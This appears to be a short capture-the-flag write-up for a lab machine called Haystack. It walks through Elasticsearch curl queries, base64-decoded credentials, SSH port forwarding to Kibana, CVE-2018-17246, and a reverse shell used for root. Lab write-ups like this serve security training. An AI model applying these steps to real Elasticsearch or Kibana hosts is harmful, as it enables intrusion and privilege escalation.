


First of all I go to /etc/hosts and put 10.129.229.203 haystack.htb
OPEN PORTS:
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
9200/tcp open wap-wsp
We have a webpage on port 80 
We have elasticsearch on port 9200
Some searches: ```
curl -X GET "http://haystack.htb:9200/_cat/indices?v"
curl -X GET "http://haystack.htb:9200/quotes/_search?pretty&size=10000" ```
Then I used this to find all the base64 strings:
cat all_quotes.txt | grep -Eo '([A-Za-z0-9+/]{20,}={0,2})'
After I decoded the base64 strings I got this: ``` cGFzczogc3BhbmlzaC5pcy5rZXk= dXNlcjogc2VjdXJpdHkg
pass: spanish.is.key user: security ```
Then I used next command to see open ports: ``` netstat -tulnp
tcp 0 0 127.0.0.1:5601 0.0.0.0:* LISTEN - ```
I will have to set up ssh port forwarding to move on:
ssh -L [local-port]:[remote-host]:[remote-port] [user]@[remote-host]
ssh -L 5601:127.0.0.1:5601 security@haystack.htb
This is our confirmation that port forwarding is working 
The kibana version is 6.4.2 Here is vulnerability: CVE-2018-17246
curl -X GET "http://haystack.htb:9200/quotes/_search?pretty" -H "Content-Type: application/json" -d '{
"query": {
"match_phrase": {
"message": "Ejecutar comando :"
}
}
}'
Next, looking the kibana config especially at the input.conf file I found that it executes everything that is in /opt/kibana/ named logstash_*. Therefore, I put a reverse shell there, and got root!